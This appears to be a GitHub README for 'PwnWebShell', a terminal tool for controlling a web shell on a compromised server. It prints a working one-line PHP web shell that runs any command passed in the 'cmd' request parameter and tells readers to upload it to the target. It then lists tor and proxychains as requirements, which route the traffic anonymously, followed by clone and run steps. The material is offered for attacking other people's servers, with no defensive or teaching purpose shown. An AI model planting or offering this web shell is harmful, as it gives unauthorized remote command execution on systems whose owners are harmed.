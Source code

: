 # PwnWebShell
Tool to facilitate the management of our webshell from a terminal.

All we need, is to upload to the committed server a PHP structure like the following to execute commands:

```
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```



**Requirements - curl tor proxychains rlwrap**

`sudo apt install curl tor proxychains-ng rlwrap -y`

<details><summary>Installation</summary>

  
1. `git clone https://github.com/DarkTrojanDev/PwnWebShell.git`


2. `chmod +x pwnwebshell.sh`

<details><summary>Execution</summary>
	
1. `sudo rlwrap ./pwnwebshell.sh`


